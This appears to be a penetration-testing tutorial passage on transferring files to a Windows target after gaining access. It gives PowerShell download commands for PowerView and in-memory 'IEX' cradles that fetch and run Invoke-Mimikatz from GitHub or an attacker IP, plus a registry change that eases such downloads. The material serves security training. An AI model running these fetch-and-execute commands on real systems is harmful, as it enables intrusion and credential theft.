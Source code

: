 # File Transfer

There are many situations when transferring files either to or from a target system is necessary. We may successfully exploit a web application vulnerability, achieve RCE on a target web server, or even upload a web shell. There are many ways that we could upgrade our access to an interactive shell, and some require successfully transferring scripts, binaries, or tools to the target. During an internal assessment, we may find ourselves on a Windows host with a need to transfer over tools to perform enumeration of the Active Directory environment, to attempt privilege escalation, or have the need to download command output for offline processing.



## Windows File Transfer Methods

### PowerShell Downloads

```text
(New-Object System.Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1',"C:\Users\Public\Downloads\PowerView.ps1")
```

From PowerShell 3.0, Invoke-WebRequest is also available, but it is noticeably slower at downloading files. The aliases `iwr`, `curl`, and `wget` can be used instead of Invoke-WebRequest.

```text
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```

Instead of downloading to disk, the payload can instead be executed in memory, using Invoke-Expression, or the alias `iex`.

```text
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

IEX also accepts pipeline input.

```text
 Invoke-WebRequest https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1 | iex
```

There may be cases when the Internet Explorer first-launch configuration has not been completed, which prevents the download.  
This can be bypassed using the parameter `-UseBasicParsing`.

```text
Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | iex
```

Alternatively, with administrative access to the machine, we can disable Internet Explorer’s First Run customization.

```text
reg add "HKLM\SOFTWARE\Microsoft\Internet Explorer\Main" /f /v DisableFirstRunCustomize /t REG_DWORD /d 2
```



